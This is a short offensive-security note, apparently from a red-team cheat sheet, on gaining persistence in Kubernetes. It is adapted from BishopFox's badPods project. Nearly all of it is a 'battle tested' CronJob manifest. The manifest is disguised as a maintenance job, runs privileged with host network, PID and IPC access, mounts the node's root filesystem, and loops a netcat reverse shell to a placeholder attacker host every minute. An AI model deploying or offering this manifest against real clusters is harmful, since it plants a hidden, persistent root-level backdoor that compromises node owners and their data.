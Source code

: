 # Kubernetes - Persistence 

> Core idea is coming from [BishopFox/badPods](https://github.com/BishopFox/badPods/) and is a collection of manifests that create pods with different elevated privileges. Quickly demonstrate the impact of allowing security sensitive pod attributes like hostNetwork, hostPID, hostPath, hostIPC, and privileged.


![](https://github.com/BishopFox/badPods/raw/main/.github/images/Title.jpg)

An elevated variant that was battle tested:
```yaml
apiVersion: batch/v1
kind: CronJob
metadata:
  name: maintenance-service-dailyjob
  namespace: mayhem
  labels:
    app: maintenance-service
spec:
  schedule: "*/1 * * * *"
  concurrencyPolicy: Forbid
  jobTemplate:
    spec:
      template:
        spec:
          hostNetwork: true
          hostPID: true
          hostIPC: true
          containers:
          - name: maintenance-service-dailyjob
            image: nginx:alpine
            command: ["/bin/sh", "-c", "-"]
            args: ["while true; do nc <ATTACKER HOST> <ATTACKER PORT> -e /bin/sh | sleep 10; done"]
            securityContext:
              privileged: true
            volumeMounts:
            - mountPath: /host
              name: noderoot
          volumes:
          - name: noderoot
            hostPath:
              path: /
          restartPolicy: OnFailure
```